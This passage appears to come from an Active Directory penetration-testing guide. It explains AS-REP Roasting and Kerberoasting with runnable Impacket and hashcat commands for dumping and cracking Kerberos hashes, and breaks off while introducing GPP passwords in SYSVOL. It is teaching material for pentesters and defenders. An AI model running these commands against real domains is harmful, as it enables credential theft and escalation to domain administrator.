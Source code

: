 #### How it works:
```bash
# 1. Find vulnerable users
GetNPUsers.py -no-pass -usersfile users.txt $DOMAIN/ -dc-ip $TARGET

# 2. If you get hashes, crack them
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --force

# 3. Why does this work?
# Normal Kerberos: User proves identity BEFORE getting ticket
# AS-REP Roasting: Misconfigured accounts give tickets WITHOUT proof
# The ticket contains encrypted password hash = crackable offline
```

### 2. Kerberoasting

#### What is it?
Service accounts often have **Service Principal Names (SPNs)** registered. You can request tickets for these services and crack the passwords offline.

#### When to use it?
- **After you have ANY domain credentials**
- When BloodHound shows "Kerberoastable Users"
- Should be in your standard post-credential workflow

#### How it works:
```bash
# 1. Find service accounts with SPNs
GetUserSPNs.py $DOMAIN/$USER:"$PASS" -dc-ip $TARGET

# 2. Request tickets for these services  
GetUserSPNs.py $DOMAIN/$USER:"$PASS" -dc-ip $TARGET -request

# 3. Crack the tickets
hashcat -m 13100 tgs_hashes.txt /usr/share/wordlists/rockyou.txt --force

# 4. Why does this work?
# Service accounts often have weak passwords but high privileges
# Kerberos tickets are encrypted with the service account's password
# Crack ticket = get service account password = often path to Domain Admin
```

### 3. SMB Share Analysis & GPP Passwords

#### What is it?
Group Policy Preferences used to store passwords in SYSVOL share. Although patched, many environments still have **legacy files with encrypted passwords**.

#### When to use it?
- **Immediately after gaining any SMB access**
- Should be automated in your workflow
- Check SYSVOL and NETLOGON shares first
